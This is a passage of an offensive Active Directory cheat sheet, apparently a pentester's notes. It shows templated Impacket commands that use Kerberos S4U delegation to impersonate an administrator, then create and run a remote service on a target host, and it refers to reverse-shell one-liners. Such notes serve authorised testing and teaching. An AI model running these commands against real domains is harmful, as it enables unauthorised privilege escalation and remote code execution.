 ```
# Linux
# Alternatively, Rubeus's b64 encoded service ticket can be exported, decoded and converted from KRB_CRED to ccache format. For more information refer to the "[ActiveDirectory] Kerberos tickets usage" note.
getST.py -spn host/<FQDN_TARGET_SYSTEM> -impersonate <Administrator | USERNAME> -dc-ip <DC_IP> '<DOMAIN>/<CONTROLLED_MACHINE_ACCOUNT_NAME$:<CONTROLLED_MACHINE_ACCOUNT_PASSWORD>'
services.py -k -no-pass -dc-ip <DC_IP> <TARGET_SYSTEM_HOSTNAME> create -name <SERVICE_NAME> -display <SERVICE_DISPLAY_NAME> -path '<SERVICE_COMMAND>'
services.py -k -no-pass -dc-ip <DC_IP> <TARGET_SYSTEM_HOSTNAME> <start | delete> -name <SERVICE_NAME>
```

Refer to:
  - the `[ActiveDirectory] Kerberos tickets usage` note for more information on
  techniques and tools to manipulate and use the received `S4U2self`
  `service tickets` on both Windows and Linux systems.
  - the `[ActiveDirectory] Kerberos Silver Tickets` note for more information
  on the exploitable machine services and their associated `SPN`.
  - the `[Windows] Lateral movements` note for more information on how to move
  laterally using `service tickets`.
  - the `[General] Shells` note for more information on how to obtain a shell
  through the service execution (`nc.exe` one-liner, PowerShell reverse shell,
  etc.)
